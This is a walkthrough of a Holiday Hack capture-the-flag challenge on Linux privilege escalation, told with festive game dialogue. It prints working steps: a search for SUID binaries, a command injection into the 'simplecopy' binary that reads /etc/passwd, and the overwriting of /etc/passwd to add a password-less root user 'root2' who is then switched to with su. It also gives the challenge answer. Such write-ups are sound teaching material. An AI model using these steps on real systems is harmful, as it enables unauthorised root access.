

# Linux PrivESC

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: --

## Objective

!!! question "Request"
    Rosemold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

??? quote "Rose Mold"
    What am I doing in this saloon? The better question is: what planet are you from?<br/>
    Yes, I’m a troll from the Planet Frost. I decided to stay on Earth after Holiday Hack 2021 and live among the elves because I made such dear friends here.<br/>
    Whatever. Do you know much about privilege escalation techniques on Linux?<br/>
    You're asking why? How about I'll tell you why after you help me.<br/>
    And you might have to use that big brain of yours to get creative, bub.

## Hints

??? tip "Linux Command Injection"
    *From: Rose Mold*<br/>
    *Terminal: Linux PrivESC*<br/>
    Use the privileged binary to overwriting a file to escalate privileges could be a solution, but there's an easier method if you pass it a crafty argument.

??? tip "Linux Privilege Escalation Techniques"
    *From: Rose Mold*<br/>
    *Terminal: Linux PrivESC*<br/>
    There's [various ways](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/) to escalate privileges on a Linux system.

## Solution

??? quote "Our Cranberry Pi terminal once again greets us with a holiday poem."
    In a digital winter wonderland we play,<br/>
    Where elves and bytes in harmony lay.<br/>
    This festive terminal is clear and bright,<br/>
    Escalate privileges, and bring forth the light.<br/>
    <br/>
    Start in the land of bash, where you reside,<br/>
    But to win this game, to root you must glide.<br/>
    Climb the ladder, permissions to seize,<br/>
    Unravel the mystery, with elegance and ease.<br/>
    <br/>
    There lies a gift, in the root's domain,<br/>
    An executable file to run, the prize you'll obtain.<br/>
    The game is won, the challenge complete,<br/>
    Merry Christmas to all, and to all, a root feat!<br/>
    <br/>
    * Find a method to escalate privileges inside this terminal and then run the binary in /root *

Our goal is to gain root privileges and run the binary located in the `/root` directory.
One of the techniques mentioned in the [resource](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/) in Hint #2 involves exploiting a vulnerable SUID executable. Let's see if there are any here:

```hl_lines="10"
elf@f833db568d22:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
/usr/bin/simplecopy
elf@f833db568d22:~$ 
```
Looking through the possibilities, the `simplecopy` binary sticks out to me. If this allows us to copy resources, it could be useful.<br/>
Let's run it:

```hl_lines="3"
elf@f833db568d22:~$ cd /usr/bin            
elf@f833db568d22:/usr/bin$ ./simplecopy 
Usage: ./simplecopy <source> <destination>
elf@f833db568d22:/usr/bin$ 
```
Now we see that there are two arguments accepted - a `<source>` and a `<destination>`.
Based on the hints, there are multiple ways to solve this challenge, including command injection. Let's see if these arguments are injectable.

```
elf@f833db568d22:/usr/bin$ ./simplecopy ;cat /etc/passwd
Usage: ./simplecopy <source> <destination>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
elf:x:1000:1000::/home/elf:/bin/sh
elf@f833db568d22:/usr/bin$ 
```
Yes, they are injectable, but what if we could overwrite the `/etc/passwd` file with our own file using `simplecopy`?

```hl_lines="8"
elf@f833db568d22:~$ echo 'root:x:0:0:root:/root:/bin/bash      
> root2::0:0::/root:/bin/bash
> elf:x:1000:1000::/home/elf:/bin/sh' > passwd
elf@f833db568d22:~$ ls
HELP  passwd
elf@f833db568d22:~$ cat passwd 
root:x:0:0:root:/root:/bin/bash
root2::0:0::/root:/bin/bash
elf:x:1000:1000::/home/elf:/bin/sh
elf@f833db568d22:~$
```
Now we have a new user `root2` with root permissions in our `passwd` file. We also included our current user `elf` in the file. Let's overwrite the existing `/etc/passwd` file with our crafted file.

```hl_lines="1 4"
elf@f833db568d22:~$ simplecopy passwd /etc/passwd
elf@f833db568d22:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
root2::0:0::/root:/bin/bash
elf:x:1000:1000::/home/elf:/bin/sh
elf@f833db568d22:~$ 
```
Now let's escalate to the `root2` user.

```hl_lines="2 3"
elf@f833db568d22:~$ su root2
root@f833db568d22:/home/elf# whoami
root
root@f833db568d22:/home/elf# 
```
We are `root`!
The last step is to find and run the binary in the root directory.



!!! tip 
    The answer is case-sensitive.

!!! success "Answer"
    santa

## Response

!!! quote "Insert Elf Name"
    Yup, I knew you knew. You just have that vibe.<br/>
    To answer your question of why from earlier... Nunya!<br/>
    But, I will tell you something better, about some information I... found.<br/>
    [There's a hidden, uncharted area somewhere along the coast of this island](../objectives/o10.md), and there may be more around the other islands.<br/>
    The area is supposed to have something on it that's totes worth, but I hear all the bad vibe toys chill there.<br/>
    That's all I got. K byyeeeee.<br/>
    Ugh... n00bs...<br/>
